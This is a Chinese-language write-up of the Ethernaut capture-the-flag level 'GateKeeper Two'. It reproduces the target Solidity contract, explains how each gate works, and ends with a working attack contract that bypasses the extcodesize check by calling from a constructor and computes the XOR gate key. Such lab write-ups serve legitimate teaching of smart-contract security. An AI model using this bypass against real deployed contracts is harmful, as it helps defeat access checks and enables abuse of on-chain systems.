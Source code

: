 # GateKeeper Two

## 要求
```
这个守门人带来了一些新的挑战, 同样的需要注册为参赛者来完成这一关

这可能有帮助:
想一想你从上一个守门人那学到了什么.
第二个门中的 assembly 关键词可以让一个合约访问非原生的 vanilla solidity 功能. 参见 here . extcodesize 函数可以用来得到给定地址合约的代码长度 - 你可以在这个页面学习到更多 yellow paper.
^ 符号在第三个门里是位操作 (XOR), 在这里是代表另一个常见的位操作 (参见 here). Coin Flip 关卡也是一个很好的参考.
```

## 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 分析

- 第一个`gateOne`就不分析了，和[14-GatekeeperOne](./14-Gatekeeper%20One.md) 一样的。

- `gateTwo`.这里使用到了solidity的汇编。
```solidity
    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }
```
其中汇编的意思就是，获取调用者的合约大小。也就是我们写的攻击合约。同时需要`require(x == 0);`。经过查找资料，发现只要是在调用合约的构造函数中进行攻击，因为构造函数还没运行完毕，所以此时获取调用者的合约大小，返回值都是0.


- `gateThree`就更简单了，直接运算就好。


## pwn
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GateKeeperTwoPwn {
    constructor(address _target){
        bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this)))))^type(uint64).max);
        address(_target).call(abi.encodeWithSignature("enter(bytes8)", gateKey));
    }
}
```